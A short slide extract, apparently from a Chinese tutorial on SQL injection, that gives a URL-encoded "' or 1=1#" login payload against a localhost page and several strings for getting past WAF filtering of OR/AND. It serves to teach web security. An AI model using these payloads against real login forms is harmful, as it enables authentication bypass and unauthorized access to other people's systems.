

#
http://127.0.0.1/login.php?id=%27%20%6f%72%20%31%3d%31%23&password=1234
一般WAF会过滤掉这种非法请求
0'='0
'+1-1-'
’=‘
绕过 or and等限制